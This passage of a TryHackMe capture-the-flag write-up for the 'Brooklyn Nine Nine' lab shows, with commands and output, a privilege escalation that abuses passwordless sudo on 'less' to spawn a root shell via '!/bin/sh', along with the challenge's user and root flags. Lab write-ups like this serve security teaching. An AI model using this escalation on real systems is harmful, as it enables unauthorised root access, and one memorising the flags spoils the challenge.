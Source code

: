```bash
nano.save  user.txt
```
```bash
jake@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

# Post Exploitation
> Privilege Escalation
16. `sudo -l` to list the sudo privileges that are assigned to the current user that we're logged in as, which revealed that we're able to execute the **less** command with root privileges without needing root's password
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
17. `firefox "https://gtfobins.github.io/"` to laucn Firefox and redirect it to the GTFOBins website where we can search for exploits that we can use to elevate our privileges with the **less** command 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Brooklyn%20Nine%20Nine/GTFOBins.png)

18. `sudo less /etc/profile` to interactively view the **/etc/profile** file 
```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Brooklyn%20Nine%20Nine/sudo%20less%20etc%20profile.png)

20. `!/bin/sh` to execute and spawn a Bourne shell (sh)
 
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Brooklyn%20Nine%20Nine/!bin%20sh.png)

21. `whoami` to verify that we now a shell with root privileges, which we do since we're now running as root
22. `ls /root` to display the available files and directories of the target's **/root** directory, which reveals a root text file
23. `cat /root/{ROOT TEXT FILE}` to display the root text file's contents onto our terminal, which revealed the root flag for this challenge
```bash
# whoami
root
```
```bash
# ls /root
root.txt
```
```bash
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
